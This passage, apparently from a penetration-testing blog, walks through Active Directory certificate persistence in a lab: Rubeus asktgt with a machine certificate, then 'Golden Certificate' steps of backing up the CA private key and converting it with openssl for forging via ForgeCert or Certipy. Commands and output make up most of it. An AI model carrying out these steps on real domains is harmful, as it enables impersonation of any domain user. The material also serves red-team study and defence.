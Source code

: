 
With the machine certificate in hand, the next step is simply to perform an **asktgt** with the ticket and its password using Rubeus, and boom, you now have persistence on the target machine.

A characteristic of machines is that their passwords are changed every 30 days, but as we learned in this article about UnPAC, this is no longer a problem for us 🙄.


## Golden Certificate persistence

The Golden Certificate, in essence, is nothing more than the certificate of the CA (Certification Authority), but what can we do with it?
<br><br>
A CA uses its private key to sign certificates, and if an attacker manages to extract it, they can sign any certificate and, by extension, impersonate any domain user.
<br><br>

Let's head to the lab. We need to perform some steps like:
- Backup the CA's private keys to a .p12 format.
- Convert the .p12 to .pem and then to .pfx.
- Use tools like [ForgeCert](https://github.com/GhostPack/ForgeCert) or [Certipy](https://github.com/ly4k/Certipy) to issue the certificate for the user we want to impersonate.

```powershell
Backup-CARoleService C:\Tools\CA-Backup -Password (ConvertTo-SecureString "Senha" -AsPlainText -Force)

dir .\CA-Backup\

Directory: C:\Tools\CA-Backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/01/2025     02:22                DataBase
-a----        11/01/2025     02:22           2597 CORP-CA.p12
```

Now, let's take this **.p12** file to the attacking machine. Remember that tools like **Certipy** can extract the CA certificate remotely, but they require domain administrator privileges.

```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.p12 -out C:\Tools\CORP-CA.pem

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem

C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "C:\Tools\CORP-CA.pfx"

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem
-a----         1/11/2025   2:30 AM           2587 CORP-CA.pfx
```
